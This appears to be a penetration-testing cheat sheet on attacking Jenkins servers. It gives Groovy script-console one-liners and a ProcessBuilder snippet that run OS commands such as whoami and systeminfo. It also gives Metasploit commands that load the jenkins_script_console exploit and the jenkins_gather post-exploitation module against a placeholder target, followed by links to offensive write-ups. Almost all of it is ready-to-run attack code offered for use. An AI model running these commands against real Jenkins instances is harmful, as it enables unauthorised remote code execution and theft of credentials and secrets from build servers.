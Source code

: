 # Jenkins

## Scripting

```groovy
println "<command>".execute().text;

println "whoami".execute().text;

println "systeminfo".execute().text;
```

```groovy
println "Command processor"
def sout = new StringBuild(), serr = new StringBuilder();
def args = ["cmd", "/c", "dir C:\\path\\to\\directory\\"];
def proc = new ProcessBuilder(args);
Process process = proc.start();
process.consumeProcessOutput(sout, serr);
process.waitForOrKill(2000);
println sout;
```

## Metasploit

```
msf > use exploit/multi/http/jenkins_script_console

set rhost <target_IP>

set rport <target_PORT>
```

`msf > use post/multi/gather/jenkins_gather`

---
## References

- [Hacktricks: Jenkins](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security)

- [Hacking Articles: Jenkins Penetration Testing](https://www.hackingarticles.in/jenkins-penetration-testing/)

- [Pwn Jenkins](https://github.com/gquere/pwn_jenkins)

- [Highon Coffee: Jenkins RCE via Unauthenticated API](https://highon.coffee/blog/jenkins-api-unauthenticated-rce-exploit/)

- [Double Pivoting both Metasploit and Manual Pivoting](https://www.hdysec.com/double-pivoting-both-metasploit-and-manual/)